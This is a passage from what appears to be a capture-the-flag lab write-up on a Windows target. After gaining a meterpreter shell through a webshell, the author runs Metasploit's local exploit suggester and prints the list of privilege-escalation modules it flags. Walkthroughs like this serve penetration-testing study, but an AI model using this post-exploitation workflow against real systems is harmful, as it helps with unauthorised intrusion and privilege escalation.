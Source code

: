```bash
Server username: IIS APPPOOL\Web
```

The webshell works and I got a meterpreter shell!



# Shell as `SYSTEM`

### Exploit Suggester

With meterpreter shell, I can leverage `multi/recon/local_exploit_suggester` module from metasploit. This helps finding privilege escalation vector of the obtained sysytem.

```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 196 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                     
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
```